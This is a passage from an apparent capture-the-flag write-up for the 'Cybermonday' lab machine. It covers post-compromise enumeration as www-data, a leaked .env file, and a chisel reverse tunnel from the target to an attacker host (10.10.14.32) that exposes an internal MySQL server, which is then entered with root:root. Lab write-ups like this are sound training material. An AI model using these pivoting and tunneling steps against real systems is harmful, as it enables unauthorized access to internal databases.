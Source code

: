 ```
SESSION_DRIVER=redis
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MAIL_ENCRYPTION=null
MAIL_HOST=mailhog
DB_DATABASE=cybermonday
SESSION_LIFETIME=120
PHP_ASC_URL=https://www.php.net/distributions/php-8.1.20.tar.xz.asc
PHP_CPPFLAGS=-fstack-protector-strong -fpic -fpie -O2 -D_LARGEFILE_SOURCE -D_FILE_OFFSET_BITS=64
_=/usr/bin/env
OLDPWD=/dev
```

One of the things that stood out was the `changelog.txt` within `/mnt`, and within it I found the user flag:

{% code overflow="wrap" %}
```
www-data@070370e2cdc4:/mnt$ ls -la
total 40
drwxr-xr-x 5 1000 1000 4096 Aug  3 09:51 .
drwxr-xr-x 1 root root 4096 Jul  3 05:00 ..
lrwxrwxrwx 1 root root    9 Jun  4 02:07 .bash_history -> /dev/null
-rw-r--r-- 1 1000 1000  220 May 29 15:12 .bash_logout
-rw-r--r-- 1 1000 1000 3526 May 29 15:12 .bashrc
drwxr-xr-x 3 1000 1000 4096 Aug  3 09:51 .local
-rw-r--r-- 1 1000 1000  807 May 29 15:12 .profile
drwxr-xr-x 2 1000 1000 4096 Aug  3 09:51 .ssh
-rw-r--r-- 1 root root  701 May 29 23:26 changelog.txt
drwxrwxrwx 2 root root 4096 Aug  3 09:51 logs
-rw-r----- 1 root 1000   33 Aug 24 14:15 user.txt

www-data@070370e2cdc4:/mnt/.ssh$ cat authorized_keys 
ssh-rsa <TRUNCATED> john@cybermonday
```
{% endcode %}

I couldn't read the user flag, but at least I got `john` as the user. There was also mention of the MySQL database, along with the username and password being `root:root`. I port forwarded this to my machine using `chisel`:

{% code overflow="wrap" %}
```bash
# on attacker
./chisel server -p 4444 --reverse

# on machine
./chisel client 10.10.14.32:4444 R:3306:db:3306 (DB_HOST = db from .env)
```
{% endcode %}

```
$ mysql -h 127.0.0.1 -u root -p     
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 39
Server version: 8.0.33 MySQL Community Server - GPL

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]>
```

